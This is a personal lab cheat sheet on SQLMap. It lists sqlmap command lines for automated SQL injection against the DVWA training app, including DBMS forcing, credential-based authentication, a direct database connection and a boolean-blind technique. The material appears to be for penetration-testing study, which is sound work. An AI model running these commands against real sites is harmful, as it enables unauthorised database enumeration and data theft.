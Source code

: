 # SQLMap

#sqli #sqlmap

TODO: Fill in the rest of the output when necessary

## 01 - Exploit

- SQLMap will automate by injecting queries of every possible techniques by default it uses `--technique=BEUSTQ` and it'll enumerate a backend database.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent
```

### 1.1 - Specify Database Management System Backend

- Force the DBMS to skip automatic enumeration using the flag `--dbms=mysql`

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --dbms=mysql
```

### 1.2 - Authentication methods without using cookies

#### 1.2.1 - Form-based authentication

- You can provide the credentials to the login panel without specifying cookies.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --auth-type=Basic --auth-cred="admin:password" --random-agent
```

#### 1.2.2 - Direct connection to the database

- If the DBMS backend has an exposed port when probing the server with `nmap` and you have credentials.

```
$ sqlmap -d "mysql://dvwa:"p@ssw0rd"@dvwa.local:3306/dvwa" -f --banner --dbs --users
```

### 1.3 - Specify SQL query technique

- You can specify SQL injection techniques. It also speeds up the process.

#### 1.3.1 - Boolean-Based Query SQL Injection

- We can also specify a boolean-based blind query that can be used for bypassing form-based authentication.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p id --cookie "PHPSESSID=<PHP_cookie_session_ID>;security=low" --random-agent --dbms=mysql --technique=B
```
